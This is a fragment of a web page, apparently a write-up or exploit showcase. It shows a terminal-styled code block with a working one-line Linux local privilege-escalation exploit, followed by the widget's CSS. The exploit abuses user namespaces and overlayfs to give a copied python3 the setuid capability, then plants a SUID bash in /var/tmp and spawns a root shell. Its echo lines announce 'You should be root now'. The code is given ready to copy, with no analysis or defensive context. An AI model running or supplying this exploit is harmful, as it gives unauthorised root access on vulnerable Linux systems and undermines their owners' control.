 echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'</code></pre>
    </div>
</div>

<style>
.terminal-container {
    background-color: #121212;
    border-radius: 10px;
    box-shadow: 0 4px 6px rgba(0,0,0,0.2);
    margin: 20px 0;
    overflow: hidden;
    position: relative;
}
.terminal-header {
    background-color: #1c1c1c;
    padding: 10px;
    display: flex;
    align-items: center;
    justify-content: center;
    position: relative;
}
.terminal-dot {
    width: 12px;
    height: 12px;
    border-radius: 50%;
    position: absolute;
    left: 10px;
}
.terminal-dot.red { background-color: #ff3b30; }
.terminal-dot.yellow { background-color: #ffcc00; }
.terminal-dot.green { background-color: #4cd964; }
.terminal-title {
    color: #a0a0a0;
    font-family: monospace;
    font-weight: bold;
}
.terminal-body {
    padding: 15px;
    background-color: #0a0a0a;
    color: #00ff00;
    font-family: 'Courier New', monospace;
}
.terminal-body pre {
    margin: 0;
    white-space: pre-wrap;
}
.copy-btn {
    position: absolute;
    right: 10px;
    background: none;
    border: none;
    color: #a0a0a0;
    cursor: pointer;
    transition: color 0.3s ease;
}
.copy-btn:hover {
    color: #fff;
}